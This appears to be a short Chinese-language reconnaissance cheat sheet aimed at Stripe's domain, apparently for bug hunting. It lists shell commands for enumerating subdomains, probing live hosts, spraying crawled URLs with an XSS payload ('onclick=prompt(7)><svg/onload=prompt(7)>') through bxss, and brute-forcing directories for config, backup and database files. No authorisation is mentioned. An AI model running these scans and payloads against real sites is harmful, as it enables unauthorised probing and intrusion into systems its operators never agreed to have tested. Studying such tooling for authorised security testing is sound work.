 <center>Stripe</center>





[toc]









## Stripe

>  Stripe 实现线上线下支付共通.
>
>  [stripe](https://stripe.com/)  [youtube](https://www.youtube.com/watch?v=X44t8tCXivI)
>
>  paylodebox: [github](https://github.com/payloadbox)









### 1. 子域名收集

```shell
subfinder -d stripe.com -all -recursive > subdomain.txt

# 查看存活主机
cat subdomain.txt | httpx-toolkit -mc 200 -o livehosts.txt

# 存在xss
subfinder -d stripe.com | httpx-toolkit -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"onclick=prompt(7)><svg/onload=prompt(7)>"@x.y' -parameters  

# 目录扫描
dirsearch -u https://www.stripe.com -e conf,config,backup,bak,old,db,sql,asp,aspx,php,zip  
# 
```

